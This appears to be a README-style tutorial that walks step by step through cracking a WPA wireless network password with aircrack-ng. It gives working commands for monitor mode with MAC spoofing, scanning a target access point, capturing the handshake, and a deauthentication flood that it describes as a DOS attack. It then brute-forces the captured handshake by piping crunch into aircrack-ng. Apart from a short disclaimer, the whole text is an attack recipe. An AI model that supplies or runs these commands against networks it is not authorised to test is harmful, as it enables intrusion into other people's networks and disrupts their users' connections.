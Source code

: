 # Hacking Wireless LAN using aircrack-ng: The Easiest and Most Affordable Way to Hack Almost Any Wireless Network

**Disclaimer:** All information provided in this file is presented for educational purposes only. Testing this instruction can only be done on your own wireless network, or with the written permission of the network owner. I am not responsible for your actions.

## Installation

1. The first step is to install the utility we will use by running the command:

```bash
apt install aircrack-ng
```

## Preparation
2. The second step, using the command:  
```bash
ifconfig
```
you need to check which network interfaces are available, because quite often a person who is trying to hack a wireless network (for example, through a virtual machine) does not have a wireless interface available there and an incident will arise further.
    
![Network Interfaces](./img/1.png)

3. The third step is to create a specific script `monitorandkill.sh` (so as not to write it constantly):
```bash
airmon-ng check kill
ifconfig wlan0 down 
macchanger -r wlan0
iwconfig wlan0 mode monitor 
ifconfig wlan0 up
airmon-ng check wlan0
iwconfig wlan0 | grep Mode 
```
and execute it with one command:
```bash
./monitorandkill.sh
```
When installing aircrack-ng in the first step, we also got access to the following command: `airmon-ng`
In this script, we use this command to look through all active processes that could interfere with a successful hacking of a wireless network, and immediately kill them. After that, we turn off our wireless interface, change our permanent MAC address to a new random one (if `macchanger` is not installed, you need to install it), change the mode of our network adapter to monitoring mode. After this, we turn on our wireless interface, double-check whether there are any processes left that could prevent hacking, and as a final step we check whether the monitoring mode for the network adapter has been accurately set.

Result of script execution:

![Monitor Mode](./img/2.png)

## Scanning

4. The next step is to use another one of the aircrack-ng tools - `airodump-ng` to scan available access points within the range of the network adapter to determine the bssid of our router (because we probably know the essid, and accordingly we are looking for the bssid), which we will be needed later during hacking.
 ```bash
airodump-ng wlan0
```
This helps identify the BSSID of the target router.
    
![Scanning Results](./img/3.png)

5. After we have found out the BSSID of our network, we need to write another command, only this time aimed exclusively at our network, which will give us the opportunity to catch the authentication packet and write it to the file we need.
```bash
airodump-ng -c 9 -w /home/praga/file --bssid C2:25:2F:80:**:*A wlan0
```
`Note:` Replace `-c 9` with the appropriate channel number identified during the global scan.

Result of the command:
    
![Target Network](./img/4.png)

## Deauthentication

6. After we have started intercepting the authentication packet, we first need to deauthenticate the user. We can do this as follows (we use another command from the aircrack-ng package - `aireplay-ng`):
```bash
aireplay-ng -0 0 -a C2:25:2F:80:**:*A wlan0
```
Thus, we will launch a small DOS attack on the network. Our command will allow us to deauthenticate all users of this network until we stop it. After the required time, you should interrupt it and wait until the authorized user tries to connect to his network again, and at that moment we will catch this long-awaited authentication packet.
    
![Deauthentication](./img/5.png)

## Capturing Handshake and Cracking

7.Now that the authorized user has reconnected after our DOS attack on the network, we received this authentication packet:
    
![Handshake Captured](./img/6.png)

which we will need to crack.
We will hack it using the `crunch` utility, namely we will brute force it.
```bash
crunch 9 9 -t @^@,%,^@^ | aircrack-ng -w - /home/praga/file-01.cap -e MERCUSYS_041A
```
`crunch` will begin to sort through and throw out a huge number of characters according to the given parameters, while `aircrack` will select these characters and try to decrypt the previously intercepted handshake.
It will look like this:

![Brute Forcing](./img/7.png)

I won’t go through a fully valid password, because it will take me a lot of time, but I can give one example when there is a light password and how quickly it can be brute-forced:

![Example](./img/8.jpg)

When brute force is used, the speed of password guessing will depend on only 3 factors:
1) Known parts of the password
2) Device power
3) Password complexity






